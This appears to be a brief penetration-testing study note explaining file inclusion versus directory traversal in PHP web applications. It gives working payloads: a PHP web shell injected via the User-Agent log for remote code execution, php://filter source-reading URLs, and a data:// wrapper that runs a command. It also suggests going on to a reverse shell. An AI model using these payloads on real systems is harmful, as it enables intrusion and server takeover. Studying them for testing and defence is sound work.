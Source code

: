 
we can use directory traversal vulnerabilities to obtain the contents of a file outside of the web server's web root. _File inclusion_ vulnerabilities allow us to "include" a file in the application's running code. This means we can use file inclusion vulnerabilities to execute local or remote files, while directory traversal only allows us to read the contents of a file.

It can give us opportunity to obtain remote code execution.

for e.g.:
we are able to log user input in access log in user-agent field.

we can add php rce in it and try to load file
<?php echo system($_GET['cmd']); ?>

after this we can try to retrieve reverse shell by running the command by passing the reverse shell command in cmd params.


Note: if you want to read php executable file content we can also use php wrappers like php://filter

example reading admin.php
`/index.php?page=php://filter/resource=admin.php` will print plain text
`/index.php?page=php://filter/convert.base64-encode/resource=admin.txt` will give base64 of page content


we can use data:// to execute
example:
`/page=data://text/plain,<?php%20echo%20system('ls');?>` will execute ls
